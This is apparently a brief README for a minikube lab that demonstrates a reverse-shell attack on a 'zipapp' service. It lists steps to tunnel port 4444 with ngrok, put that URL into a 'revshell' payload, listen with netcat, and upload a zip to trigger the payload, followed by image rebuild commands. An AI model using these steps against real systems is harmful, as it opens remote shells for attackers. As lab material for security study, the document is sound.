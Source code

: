 - run all deployments
- run minikube service zipapp --url
- run ngrok tcp 4444
- change url in revshell with ngrok's one
- run nc -nlv 4444
- upload zip file and do "download all"

how to recompile zipapp image:
- cd zipapp
- eval $(minikube docker-env)
  docker build -t zipapp:latest .
- cd ..
- kubectl delete deployment zipapp
- kubectl apply -f manifests/
